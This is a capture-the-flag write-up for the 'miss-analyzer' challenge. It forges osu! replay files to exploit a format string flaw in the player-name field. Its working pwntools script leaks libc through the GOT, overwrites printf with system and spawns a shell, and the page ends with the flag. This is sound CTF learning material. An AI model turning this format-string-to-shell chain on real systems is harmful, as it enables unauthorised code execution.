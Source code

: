 # miss-analyzer
![challenge](challenge.png)
### Challenge:
##### I made a program to analyze the misses in my replays!
##### Files: [analyzer](analyzer)
##### Links: ```nc chal.osugaming.lol 7273```

### Solution:
The binary is an analyzer for osu! replay files, we can visit this link for more informations: 
[https://osu.ppy.sh/wiki/en/Client/File_formats/osr_(file_format)](https://osu.ppy.sh/wiki/en/Client/File_formats/osr_(file_format)).

There's a format string vulnerability when printing the name of the player in the replay, so our strategy becomes forging
a replay file with our fmt payload as the player's name.

We can look on how replay files are structured from the previous link, after that it becomes a simple format string vuln challenge.

```py
r = conn()

    #https://osu.ppy.sh/wiki/en/Client/File_formats/osr_%28file_format%29
    def construct_string(value):
        return b"\x0b" + leb128.u.encode(len(value)) + value


    fmt = b"%15$sAAA" + p64(exe.got.puts)
    payload = b"\x00" + p32(0x20) + construct_string(b"aa") + construct_string(fmt) + construct_string(b"aa") + p16(0x20)*6
    r.sendline(payload.hex())

    r.recvuntil(b"Player name: ")
    leak=u64(r.recvuntil(b"AAA")[:-3].ljust(8, b"\x00"))
    libc.address = leak - libc.sym.puts

    fmt = fmtstr_payload(14, {exe.got.printf:libc.sym.system})
    payload = b"\x00" + p32(0x20) + construct_string(b"aa") + construct_string(fmt) + construct_string(b"aa") + p16(0x20)*6
    r.sendline(payload.hex())

    payload = b"\x00" + p32(0x20) + construct_string(b"aa") + construct_string(b"/bin/sh") + construct_string(b"aa") + p16(0x20)*6
    r.sendline(payload.hex())

    r.interactive()
    #osu{1_h4te_c!!!!!!!!}
```

We first leak the libc by reading an address from the got, then we overwrite printf with system, send /bin/sh and get our shell.

Script: [solve.py](solve.py)

Flag: ```osu{1_h4te_c!!!!!!!!}```